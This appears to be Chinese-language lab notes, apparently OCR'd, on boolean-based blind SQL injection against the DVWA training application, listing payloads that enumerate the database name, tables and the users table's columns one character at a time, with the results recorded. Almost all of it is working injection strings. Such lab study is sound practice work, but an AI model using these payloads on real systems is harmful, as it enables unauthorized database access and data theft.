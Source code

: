 > 1' and accii(substr((seelct column_name from information_schema.columns where table_name='users' limit 1,1),1))
## 猜解用户名
### 第一位
>1’ and (ascii(substr((select user from users limit 0,1),1,1)))=97#
为a
### 第二位
>1’ and (ascii(substr((select user from users limit 0,1),2,1)))=100 #
dvwa布尔盲注
当前使用数据库第一位ascii为100  d
第二位为118  v
第三位119  w
第四位97  a
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2#
查询到当前数据库有两个表
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9#
当前数据库第一个表字符串长度为9
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=103#
当前数据库第一个表第一个字符ascii为103
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2))=117#
当前数据库第一个表第二个字符ascii为117
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1))=5#
当前数据库第二个表字符串长度为5
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1))=117#
当前数据库第二个表第一个字符ascii为117
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2))=115#
当前数据库第二个表第二个字符ascii为115
1' and (select count(column_name) from information_schema.columns where table_name='users')=14#
users表有14列数据
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7#
第一列列名长度为7
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=117#
表第一列第一个字符ascii为117
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),3,1)) =101#
表第一列第三个字符ascii为101
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1))=6#
第二列列名长度为6
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)) =102#
表第二列第一个字符为f
1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),3,1))=114#
表第二列第三个字符ascii为114
1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),3))=5#